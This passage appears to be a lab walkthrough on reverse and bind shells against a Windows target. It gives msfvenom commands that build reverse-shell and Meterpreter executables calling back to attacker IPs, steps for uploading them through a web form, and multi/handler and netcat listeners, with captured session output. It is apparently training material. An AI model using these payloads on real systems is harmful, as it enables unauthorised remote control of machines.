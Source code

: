 2. Connect to waiting listener from attacker.
```
socat TCP:10.10.70.179:1234 -
```
3. Session established.
```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
> Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.
1. Create msfvenom payload.
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.248.19 LPORT=1234
```
2. Upload shell.exe to the target.
* Browse to http://10.10.70.179 in attacker’s browser.
* Click ‘Browse’ button.
* Navigate to /root/shell.exe.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.
3. Create Meterpreter listener to catch the reverse shell.
* `Msfconsole`
* `use multi/handler`
* `set LHOST 10.10.248.19`
* `set LPORT 1234`
* `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
* `run`
3. Execute the shell.
* RDP to target.
* Open browser on the target.
* Browse to `http://127.0.0.1/uploads`.
* Save the `shell.exe` file.
* Run file
4. Meterpreter session is created on attacker.
```
[+] Sending stage (200774 bytes) to 10.10.70.179
[+] Meterpreter session 1 opened (10.10.248.19:1234 -> 10.10.70.179:50335) at 2024-01-11 17:35:22 +0000
```
> Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?
#### Create stageless meterpreter shell for Windows target.
1. Create the msfvenom payload.
```
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell2.exe LHOST=10.10.18.162 LPORT=1234
```
2. Upload `shell2.exe` to target.
* Browse to `http://10.10.70.179` in attacker’s browser.
* Click ‘Browse’ button.
* Navigate to `/root/shell2.exe`.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.
3. Create nc listener on attacking machine.
```
nc -lvnp 1234
```
4. Execute the shell.
* RDP to the target.
* Open a browser.
* Browse to `http://127.0.0.1/uploads`.
* Save `shell2`.exe.
* Run file.
5. Session is established.